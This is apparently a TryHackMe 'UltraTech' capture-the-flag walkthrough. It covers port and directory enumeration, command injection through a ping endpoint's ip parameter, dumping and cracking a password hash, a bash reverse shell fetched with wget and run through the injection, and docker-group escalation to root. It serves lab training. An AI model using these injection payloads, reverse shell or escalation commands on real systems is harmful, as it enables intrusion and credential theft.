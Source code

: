 ```yaml
---
description: >-
  The basics of Penetration Testing, Enumeration, Privilege Escalation and
  WebApp testing
---
```


# 1 - UltraTech

Difficulty: Medium.

Room Link --> [https://tryhackme.com/room/ultratech1](https://tryhackme.com/room/ultratech1)

### Nmap scan:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -p- -T4 -sV 10.10.239.176

Host is up (0.18s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{% endcode %}

Using \[gobuster] to search for hidden directories.

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.239.176:31331 -w /usr/share/wordlists/dirb/common.txt -t 200 2>/dev/null

===============================================================
2023/08/15 09:30:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 300]
/css                  (Status: 301) [Size: 321] [--> http://10.10.239.176:31331/css/]
/favicon.ico          (Status: 200) [Size: 15086]
/images               (Status: 301) [Size: 324] [--> http://10.10.239.176:31331/images/]
/index.html           (Status: 200) [Size: 6092]
/javascript           (Status: 301) [Size: 328] [--> http://10.10.239.176:31331/javascript/]
/js                   (Status: 301) [Size: 320] [--> http://10.10.239.176:31331/js/]
/robots.txt           (Status: 200) [Size: 53]
/server-status        (Status: 403) [Size: 304]

===============================================================
2023/08/15 09:31:04 Finished
===============================================================
```
{% endcode %}

/robots.txt took me to "Sitemap: /utech\_sitemap.txt"

/utech\_sitemap.txt took me to "/partners.html" which led to a login page, but we don't have any credential.

/js took us to a dir with some .js files, taking a look at the "api.js" we found 2 functions making reference to 8081<"/ping" and "/auth"> directory. The "/ping" dir seem to be performing a ping with the "?ip=" parameter. ie ping?ip=

Lets try pinging our tun0 ip, we can use `sudo tcpdump -i tun0 icmp` to listen for pings.

and it went through, meaning the page is vulnerable to command injection (cmd injection).

{% code overflow="wrap" lineNumbers="true" %}
```
http://10.10.239.176:8081/ping?ip=10.18.88.214

PING 10.18.88.214 (10.18.88.214) 56(84) bytes of data. 64 bytes from 10.18.88.214: icmp_seq=1 ttl=63 time=163 ms --- 10.18.88.214 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 163.982/163.982/163.982/0.000 ms
```
{% endcode %}

### Initial Access

From here we can take 2 paths:

1. Do a cmd injection on the page and list the files on it, then can the .db file or,
2. Create a shell.sh script with a bash reverse shell in it, the execute it while listening on netcat.

#### Path 1

We use the \``ls` - backticks, so that our cmd takes precedence over the default ping function.

{% code overflow="wrap" lineNumbers="true" %}
```
http://10.10.239.176:8081/ping?ip=`ls`

we listed the file:
ping: utech.db.sqlite: Name or service not known.
```
{% endcode %}

Lets try to cat the content of the file.

{% code overflow="wrap" lineNumbers="true" %}
```
http://10.10.239.176:8081/ping?ip=`cat%20utech.db.sqlite`


we got:
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```
{% endcode %}

We can clearly see the username --> r00t and its pasword hash, then the user admin and its hash also. Since we need "r00t", we use \[hash-identifier] in kali to get the hash type.

{% code overflow="wrap" lineNumbers="true" %}
```bash
 HASH: f357a0c52799563c7c7b76c1e7543a32

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
{% endcode %}

Its an MD5 hash, save it into a hash.txt file. I tried using john to crack, but john didnt work. So i used hashcat.

`hashcat -m 0 hash.txt /usr/share/wordlist/rockyou.txt` - and cracked it.

password --> n100906

we got the password, lets login via ssh. And we got in.

#### Path 2

We create a shell.sh script.

{% code title="shell.sh" overflow="wrap" lineNumbers="true" %}
```bash
# We use this bash onliner rev shell, and use my tun0 ip add and port 5555
bash -i >& /dev/tcp/10.18.88.214/5555 0>&1
```
{% endcode %}

Since we can execute cmds on the site, we use "wget" to download the script and then execute the shell.sh file with bash, while listening on netcat.

First we have to host shell.sh with python: `python3 -m http.server`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://10.10.239.176:8081/ping?ip=`wget 10.18.88.214/shell.sh` 
http://10.10.239.176:8081/ping?ip=`bash shell.sh`
```
{% endcode %}

We get a shell :)

### Priv Esc

Since we are in docker group, we check gtfobin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
docker image ls # we have a bash image.
docker run -v /:/mnt --rm -it bash chroot /mnt sh # we get root.
```
{% endcode %}

We can use locate to find the root user ssh private key.

`locate --all "id_rsa" /` - we get the key.

Done.
